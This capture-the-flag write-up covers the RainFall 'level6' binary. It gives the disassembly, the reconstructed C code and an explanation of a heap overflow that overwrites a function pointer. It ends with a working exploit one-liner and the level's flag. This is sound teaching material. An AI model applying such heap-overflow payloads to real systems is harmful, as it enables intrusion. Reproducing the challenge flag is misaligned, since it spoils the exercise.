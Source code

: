 # level6

```
08048454 <n>:
 8048454:	55                   	push   ebp
 8048455:	89 e5                	mov    ebp,esp
 8048457:	83 ec 18             	sub    esp,0x18
 804845a:	c7 04 24 b0 85 04 08 	mov    DWORD PTR [esp],0x80485b0
 8048461:	e8 0a ff ff ff       	call   8048370 <system@plt>
 8048466:	c9                   	leave  
 8048467:	c3                   	ret    

08048468 <m>:
 8048468:	55                   	push   ebp
 8048469:	89 e5                	mov    ebp,esp
 804846b:	83 ec 18             	sub    esp,0x18
 804846e:	c7 04 24 d1 85 04 08 	mov    DWORD PTR [esp],0x80485d1
 8048475:	e8 e6 fe ff ff       	call   8048360 <puts@plt>
 804847a:	c9                   	leave  
 804847b:	c3                   	ret    

0804847c <main>:
 804847c:	55                   	push   ebp
 804847d:	89 e5                	mov    ebp,esp
 804847f:	83 e4 f0             	and    esp,0xfffffff0
 8048482:	83 ec 20             	sub    esp,0x20
 8048485:	c7 04 24 40 00 00 00 	mov    DWORD PTR [esp],0x40
 804848c:	e8 bf fe ff ff       	call   8048350 <malloc@plt>
 8048491:	89 44 24 1c          	mov    DWORD PTR [esp+0x1c],eax
 8048495:	c7 04 24 04 00 00 00 	mov    DWORD PTR [esp],0x4
 804849c:	e8 af fe ff ff       	call   8048350 <malloc@plt>
 80484a1:	89 44 24 18          	mov    DWORD PTR [esp+0x18],eax
 80484a5:	ba 68 84 04 08       	mov    edx,0x8048468
 80484aa:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484ae:	89 10                	mov    DWORD PTR [eax],edx
 80484b0:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 80484b3:	83 c0 04             	add    eax,0x4
 80484b6:	8b 00                	mov    eax,DWORD PTR [eax]
 80484b8:	89 c2                	mov    edx,eax
 80484ba:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 80484be:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 80484c2:	89 04 24             	mov    DWORD PTR [esp],eax
 80484c5:	e8 76 fe ff ff       	call   8048340 <strcpy@plt>
 80484ca:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484ce:	8b 00                	mov    eax,DWORD PTR [eax]
 80484d0:	ff d0                	call   eax
 80484d2:	c9                   	leave  
 80484d3:	c3                   	ret    
 80484d4:	90                   	nop
 80484d5:	90                   	nop
 80484d6:	90                   	nop
 80484d7:	90                   	nop
 80484d8:	90                   	nop
 80484d9:	90                   	nop
 80484da:	90                   	nop
 80484db:	90                   	nop
 80484dc:	90                   	nop
 80484dd:	90                   	nop
 80484de:	90                   	nop
 80484df:	90                   	nop
```

```c
int main(int argc, char **argv) {
    void *buffer = malloc(0x40);
    void (*fn)() = malloc(0x4);
    fn = m;
    strcpy(buffer, argv[1]);
    fn();
    return 0;
}
```

So far we have seen overflow of buffers that are located in the stack memory region. We can also store a buffer in the heap, by using `malloc` and they are also subject to **overflows** ! We can overwrite the `fn` function pointer that is stored on the heap, by overflowing `buffer`.

By trial and error, we must fill at least **72** characters until we can overwrite the content of `fn`. That is **8** bytes more the `buffer` can actually holds, and this is because `malloc` stores metadata along your content. Indeed, `malloc` is a piece of software, not a **syscall**. It provides a simple interface, but does a whole lot under the hood to efficiently manage huge chunks of **heap** memory.

```
level6@RainFall:~$ ./level6 $(python -c 'print("a"*72 + "\x54\x84\x04\x08")')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

Success !